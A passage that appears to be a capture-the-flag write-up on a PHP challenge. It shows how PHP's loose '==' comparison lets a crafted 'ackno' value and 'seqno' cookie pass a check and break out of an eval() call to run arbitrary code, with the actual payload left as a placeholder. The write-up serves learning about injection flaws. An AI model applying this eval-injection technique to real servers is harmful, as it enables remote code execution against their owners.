 ```php
        return "<h1>Packet data written</h1><div><a href=\"".$file_name."\">".$file_name_hash.".packet</a></div>";
    }
?>

<!DOCTYPE html>
<html>
    <head>
        <title>Send Packet.</title>
        <link rel="stylesheet" href="/style.css"/>
        <link rel="stylesheet" href="/tron.css"/>
    </head>
    <body>
        <div id="main-wrapper">
            <div class="content-page">
                <?php echo get_data(); ?>
            </div>
        </div>
    </body>
</html>
```

We can spot our injection point at
```php
$checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
eval($checksum_str);
```
If we could manage to craft a payload which makes the eval execute aribitrary code we would be good to go.
The problem is that the variables used as the second argument of *hash* are all treated as integers.
We also can notice that all the *if* controls are made using *weak typing using ==*.
Let's try and tweak *$packet->ackno*. The only relevant check on *ackno* is at:
```php
if($packet->ackno != $_COOKIE["seqno"] + 1) {
    return "<p>Error: out of order packet</p>";
}
```
After some tries we can realize that we can exploit:
```php
$ackno = "1abc";
if ($ackno == "0abc" + 1) {
    echo "PWNED";
}
```
which yields *PWNED* with some side notice warnings that doesn't stop the execution. We can craft our *eval* code and put it into *$packet->ackno* as 
```php
$packet->ackno = "1)); /*EXPLOIT_CODE*/ echo((1"
``` 
and provide the cookie as
```php
$_COOKIE["seqno"] = "0abc"
```
When evaluated, the check will pass:
```php
// this
if ("1)); /*EXPLOIT_CODE*/ echo((1" == "0abc" + 1)
// is equivalent to 
if ("1" == "0" + 1)
// as php will try to wipe off all non numerical chars
```
